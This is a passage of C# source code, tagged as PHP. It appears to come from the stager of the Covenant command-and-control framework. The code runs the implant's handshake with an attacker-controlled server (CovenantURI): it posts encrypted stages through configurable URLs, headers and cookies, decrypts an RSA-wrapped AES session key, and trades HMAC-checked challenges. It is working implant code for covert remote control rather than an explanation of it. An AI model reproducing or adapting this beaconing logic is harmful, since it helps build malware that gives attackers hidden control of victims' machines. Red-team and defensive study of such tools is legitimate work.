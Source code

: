 ```php
                Stage0Response = wc.UploadString(CovenantURI + ProfileHttpUrls[random.Next(ProfileHttpUrls.Count)].Replace("{GUID}", GUID), String.Format(ProfileHttpPostRequest, transformedResponse));
                string extracted = Parse(Stage0Response, ProfileHttpPostResponse)[0];
                extracted = Encoding.UTF8.GetString(MessageTransform.Invert(extracted));
                List<string> parsed = Parse(extracted, MessageFormat);
                string iv64str = parsed[3];
                string message64str = parsed[4];
                string hash64str = parsed[5];
                byte[] messageBytes = Convert.FromBase64String(message64str);
                if (hash64str != Convert.ToBase64String(hmac.ComputeHash(messageBytes))) { return; }
                SetupAESKey.IV = Convert.FromBase64String(iv64str);
                byte[] PartiallyDecrypted = SetupAESKey.CreateDecryptor().TransformFinalBlock(messageBytes, 0, messageBytes.Length);
                byte[] FullyDecrypted = rsa.Decrypt(PartiallyDecrypted, true);

                Aes SessionKey = Aes.Create();
                SessionKey.Mode = CipherMode.CBC;
                SessionKey.Padding = PaddingMode.PKCS7;
                SessionKey.Key = FullyDecrypted;
                SessionKey.GenerateIV();
                hmac = new HMACSHA256(SessionKey.Key);
                byte[] challenge1 = new byte[4];
                RandomNumberGenerator rng = RandomNumberGenerator.Create();
                rng.GetBytes(challenge1);
                byte[] EncryptedChallenge1 = SessionKey.CreateEncryptor().TransformFinalBlock(challenge1, 0, challenge1.Length);
                hash = hmac.ComputeHash(EncryptedChallenge1);

                string Stage1Body = String.Format(MessageFormat, GUID, "1", "", Convert.ToBase64String(SessionKey.IV), Convert.ToBase64String(EncryptedChallenge1), Convert.ToBase64String(hash));
                transformedResponse = MessageTransform.Transform(Encoding.UTF8.GetBytes(Stage1Body));

                string Stage1Response = "";
                for (int i = 0; i < ProfileHttpHeaderValues.Count; i++)
                {
                    if (ProfileHttpHeaderNames[i] == "Cookie")
                    {
                        wc.SetCookies(new Uri(CovenantURI), ProfileHttpHeaderValues[i].Replace(";", ",").Replace("{GUID}", GUID));
                    }
                    else
                    {
                        wc.Headers.Set(ProfileHttpHeaderNames[i].Replace("{GUID}", GUID), ProfileHttpHeaderValues[i].Replace("{GUID}", GUID));
                    }
                }
                Stage1Response = wc.UploadString(CovenantURI + ProfileHttpUrls[random.Next(ProfileHttpUrls.Count)].Replace("{GUID}", GUID), String.Format(ProfileHttpPostRequest, transformedResponse));
                extracted = Parse(Stage1Response, ProfileHttpPostResponse)[0];
                extracted = Encoding.UTF8.GetString(MessageTransform.Invert(extracted));
                parsed = Parse(extracted, MessageFormat);
                iv64str = parsed[3];
                message64str = parsed[4];
                hash64str = parsed[5];
                messageBytes = Convert.FromBase64String(message64str);
                if (hash64str != Convert.ToBase64String(hmac.ComputeHash(messageBytes))) { return; }
                SessionKey.IV = Convert.FromBase64String(iv64str);

```